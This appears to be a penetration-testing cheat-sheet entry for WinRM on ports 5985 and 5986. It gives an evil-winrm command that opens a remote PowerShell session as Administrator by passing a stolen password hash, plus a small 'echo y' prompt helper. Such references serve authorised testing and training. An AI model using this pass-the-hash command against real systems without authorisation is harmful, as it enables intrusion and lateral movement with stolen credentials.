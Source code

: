 # winrm

% windows, remote, winrm, evilwinrm, 5985, 5986
#plateform/linux  #target/remote  #protocol/winrm #port/5985 #port/5986

## evil-winrm - Establish a Powershell session with Pass-The-Hash
```
evil-winrm -i <ip> -u Administrator -H "<passwordhash>"
```

## evil-winrm - Send yes to prompt
```
echo y | <SOMECMD>
```
